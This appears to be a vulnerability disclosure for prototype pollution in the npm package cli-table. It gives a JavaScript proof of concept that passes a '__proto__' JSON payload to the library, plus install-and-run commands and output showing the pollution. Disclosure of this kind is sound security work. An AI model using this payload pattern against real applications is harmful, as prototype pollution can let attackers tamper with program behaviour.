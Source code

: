 # Description

Prototype Pollution in cli-table

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var cliTable = require("cli-table")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
cliTable(payload);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i cli-table # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
